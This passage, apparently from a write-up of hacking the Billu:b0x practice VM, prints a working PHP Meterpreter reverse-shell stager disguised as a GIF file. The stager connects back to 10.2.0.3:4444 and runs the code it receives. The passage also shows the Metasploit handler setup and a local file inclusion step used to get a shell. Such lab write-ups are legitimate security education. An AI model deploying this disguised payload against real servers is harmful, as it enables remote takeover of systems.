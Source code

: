 After generating the script, I created another GIF file named `shell.gif` and used the same format as in the proof of concept to pack the Meterpreter script:

```php
GIF89a/* */=0;/*<?php /**/ error_reporting(0); $ip = '10.2.0.3'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } elseif (($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } elseif (($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } else { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; eval($b); die();
```

With the payload packed into the GIF, I now headed over to Metasploit and started up the handler:

```shell_session
msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 10.2.0.3
LHOST => 10.2.0.3
msf exploit(handler) > run

[*] Started reverse TCP handler on 10.2.0.3:4444
[*] Starting the payload handler...
```

Now, I repeated the same steps as earlier to invoke the LFI bug and established the session on to the server (woo!)

![Meterpreter session](/assets/images/how-i-hacked-billu-b0x/meterpreter.png)
